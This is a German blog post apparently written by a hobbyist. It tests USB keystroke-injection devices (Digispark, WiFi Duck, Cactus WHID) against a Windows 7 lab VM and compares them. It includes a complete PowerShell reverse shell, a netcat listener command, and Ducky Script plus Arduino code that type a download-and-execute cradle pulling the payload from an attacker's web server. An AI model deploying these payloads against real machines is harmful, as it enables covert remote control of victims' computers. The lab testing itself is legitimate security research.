Über die Jahre gibt und gab es jetzt verschiedenen Irritationen von Rubber Duckys. Wenn ich mich recht entsinne, waren die ersten Rubber Duckys noch umprogrammierte USB Sticks. 
Bis dann Hak5 kam und einen [Stick](https://shop.hak5.org/products/usb-rubber-ducky-deluxe) raus brachte, der nur für diesen Anwendungsfall erstellt worden war. Und diesen dann stark vermarktet haben.
Danach kam die Generation von Sticks, die WLAN an Bord hatten. Und nun werden diese in USB Kabeln versteckt.

## Kurze Theorie 👨‍🏫
Die Grundidee ist es, ein USB Geräte zu haben, dass sich am Zielrechner als Tastatur ausgibt. Dieses macht dann Eingaben, die von Angreifern erstellt wurden.
Um diese Eingaben zu gestalten, gibt es eine eigene Scriptsprache, diese heißt Ducky Script. Die meisten dieser Geräte unterstützen diese dann.

Es gibt schon einige fertige Ducky Scripts im Internet, der bekannteste Anlaufpunkt ist das [Repository](https://github.com/hak5/usbrubberducky-payloads) von Hak5 selbst. Es gibt auch ein online [Generator](https://ducktoolkit.com). Aus meiner Erfahrung funktionieren diese nicht Out-of-the-box. Diese müssen für das jeweilige System angepasst werden.

### Reverse Shell 🐚
Mit den Sticks habe ich mal die Reverse Shell von [Hak5](https://shop.hak5.org/blogs/usb-rubber-ducky/the-3-second-reverse-shell-with-a-usb-rubber-ducky) ausprobiert.
Ich habe diesen Angriff auch unter einen aktuellen Windows 10 mit aktiven Defender getestet, doch dieser hat diese sofort unterbunden.



Deswegen wurde ein Windows 7 als Zielsystem verwendet

## Aufsetzen des Zielsystem 🎯
Nun ein Windows 7 zum Glück hatte ich noch ein paar alte ISOs auf der Festplatte. 😉

Ich hatte kein Lust auf einen echten Rechner ein Windows 7 zu installieren, also hab ich meine Lab Umgebung zu Rate gezogen.
Schnell eine kleine WM erstellt. Bin erstaunt, wie gut das läuft mit 2GB RAM, was noch zu beachten ist, dass man den USB POrt an die VM weiterleiten muss.
Aber dank Proxmox kein Problem einfach unter: `Hardware` -> `Add` -> `USB Device`



## Aufsetzen des Angreifersystem 🏹
In diesem Fall braucht der Angreifer auch ein Rechner/Server, bei mir ist es jetzt ein LXC Container im selben Netzwerk, dieser würde auch im Normalfall im Internet erreichbar sein.

Auf dem Server läuft ein ein normaler Apache2 Webserver, auf diesem liegt ein Powershell Script.

Das sieht so aus:

$sm=(New-Object Net.Sockets.TCPClient("192.168.178.92",4444)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}


Die Reverse Shell muss mit `nc -l -p 4444` gestartet werden, am besten unter der Verwendung von `tmux`.

Das Ducky Script welches ich verwendet habe:


DELAY 1000
GUI r
DELAY 1000
STRING powershell "IEX (New-Object Net.WebClient).DownloadString('http://ducky.fritz.box/payload.ps1');"
ENTER


## Verschieden Sticks
Es gibt einige Sticks, die ich für diese Angriffe nehmen kann, ich habe mal ein paar getestet. Es sind drei verschiedene, der Erste ist das Digispark Board.
Das Zweite ist ein DIY Projekt und nennt sich WiFi Duck. Und der Letzte ist der Cactus WHID Stick.

### Digispark Board



Ist ein sehr günstiger USB Stick, bestückt mit einem ATtiny85, dies ist ein sehr schwacher Mikrocontroller von Atmel (heute Microchip).
Der Stick ist sehr langsam mit seinen Tasteneingaben, zudem ist er sehr auffällig, aber ist ein guter und günstiger Einstieg in das Thema Keystroke Injection.
Hier ein gutes Video von [Null Byte](https://www.youtube.com/watch?v=A3cB9BDE6XM) wie dieser programmiert wird.

#### Programmien mit Arduino IDE
Zunächst muss die Arduini IDE installiert werden. In den Voreinstellung muss um folgende URL ergänzt werden:

`http://digistump.com/package_digistump_index.json`

Dann im Boardverwalter die  `Digistump AVR Board` installieren. Leider kann hier kein Ducky Script verwendet werden, die Borads müssen in der Arduino IDE programmiert werden.
Aber auch hier findet man Beispiele im Netz, zum Beispiel auf [Github](https://github.com/CedArctic/DigiSpark-Scripts).

Hier das Ducky Script umgewandelt in ein Arduino Code:


#include "DigiKeyboard.h"
void setup() {
}

void loop() {
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print("powershell \"IEX (New-Object Net.WebClient).DownloadString('http://ducky.fritz.box/payload.ps1');\"");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  for (;;) {
    /*Stops the digispark from running the scipt again*/
  }
}


Fehler beim Uploden:

micronucleus: library/micronucleus_lib.c:66: micronucleus_connect: Assertion `res >= 4' failed.
Aborted


Hierfür wieder die USB Rules anpassen mit: `sudo vim /etc/udev/rules.d/digispark.rules`

Und folgendes eintragen:


SUBSYSTEM=="usb", ATTR{idVendor}=="16d0", ATTR{idProduct}=="0753", MODE="0660", GROUP="dialout"


Und natürlich hat es bei mir nicht funktioniert, weil in meinem Windows eine deutsche Tastatur ausgewählt ist.

Hab die [DigiKeyboardDe.h](https://raw.githubusercontent.com/adnan-alhomssi/DigistumpArduinoDe/master/digistump-avr/libraries/DigisparkKeyboard/DigiKeyboardDe.h) in `/home/<user>/.arduino15/packages/digistump/hardware/avr/1.6.7/libraries/DigisparkKeyboard/` eingefügt.

Und dann den Code angepasst:

#include "DigiKeyboardDe.h"
#include "DigiKeyboard.h"

void setup() {
}

void loop() {
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(1000);
  DigiKeyboardDe.print("powershell \"IEX (New-Object Net.WebClient).DownloadString('http://ducky.fritz.box/payload.ps1');\"");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);

  for (;;) {
    /*Stops the digispark from running the scipt again*/
  }
}


Leider sind sie sehr unzuverlässig. Und ich würde sie nicht für echte Angriffe/Aufgaben verwenden.  Sie geben jedoch einen einfachen Einstieg in Keystroke-Injection Attacken.

### WiFi Duck



Ist eine von [Spacehuhn](https://github.com/spacehuhn) einwickelte Software, die mit Hilfe zweier Mikrocontroller funktioniert. Ein Atmega32u4, dieser gibt sich am Zielrechner als Tastatur aus und kommuniziert mit einem ESP8266, dieser ist ein Microcontroller mit WLAN an Bord. Dieses wird verwendet, um Eingaben auch Remote zu ermöglichen.
Die Installation geht auch über die Arduino IDE und ist auf der [Github](https://github.com/SpacehuhnTech/WiFiDuck#atmega32u4-development-boards) Seite des Projektes sehr gut beschrieben.
Man kann diese Firmware auf verschiedenen Sticks bespielen. Oder eine Verbinder Platine anfertigen, mit der man dann Entwicklerbords der jeweiligen Chips verbinden kann.
Mir ist eine solchen beim [Kongress](https://de.wikipedia.org/wiki/Chaos_Communication_Congress) zugespielt worden, danke dafür.

#### Webinterface
Durch den ESP8266 verfügt das Gerät über ein Webinterface, dieses ist durch ein WLAN zu erreichen, dass der Stick dann aufspannt.
Hier können die Scripte hochgeladen werden und verwaltet werden:



Ich konnte das Duck Script von oben einfach verwenden, musste nur noch `LOCALE DE` ergänzen. Da mein Rechner nur Eingaben von deutschen Tastaturen entgegen nimmt.
Diese Änderung konnte ich bequem im Webinterface vornehmen, wo man Scripte Speicher, editieren und gleich ausführen kann.



Des weiteren können Einstellungen über das WLAN getroffen werden:



Das Webinterface von WiFi Duck hat mir besonders gut gefallen. Es ist auch sehr angenehm Angriffe zu testen. Nachteil in meinem Setup, ist das, dass Gerät sehr auffällig ist. Ich denke ein [Malduino](https://maltronics.com/collections/malduinos/products/malduino-w) mit WiFi Duck ist eines der besten Werkzeuge für solche Angriffe. Was mir auch noch positiv aufgefallen ist, dass die Software auf Github immer noch weiter gepflegt wird.

### Cactus WHID



Der [Cactus WHID](https://github.com/whid-injector/WHID) ist ein USB Stick, ähnlich wie beim WiFi Duck setzt er auf ein Atmega32u4 als falsche Tastatur verwendet. Es wird auch ein WLAN auf gespannt mit einem ESP-12S, dieser Chip ist soweit ich weiß, fast gleich zum ESP8266.
Er kommt jedoch mit einer eigenen Firmware, die ich mir auch mal anschauen wollte. Die Firmware wird auch über die Arduino IDE gebaut und kann damit geflascht werden.
Falls die Firmware mal neu aufgespielt werden muss, muss man den Atmega mit Hilfe eines Magneten wieder zurück setzten. Meiner Erfahrung nach wird dieser Vorgang besser von Windows unterstützt. Mein Linux hatte den Sick immer nur kurzzeitig erkannt, was nicht reichte, um ihn neu zu bespielen.

#### Webinterface
Das Webinterface ist sehr viel schlichter als das vom WiFi Duck.



Man kann Live während des Tastendruck über das Web senden:



Man kann Payloads hochladen und hochgeladenen auswählen und starten. Es gibt auch einen Editor, in den man sein Scripte schreiben kann.
Leider funktioniert bei mir die Ausführung nicht.

Es gibt ein Duckuino dieser funktioniert bei mir viel besser.



Leider müssen die verschiedenen [Sprachen](https://github.com/whid-injector/WHID/wiki/Keyboards-Layout) beim Erstellen der Firmware hinein kompiliert werden. Das macht den Stick weniger flexibel.
Das Webinterface ist auch nicht so gut, wie vom WiFi Duck. Der einzige Vorteil ist, der Stick selbst ist unauffälliger bei einem echten Angriff.

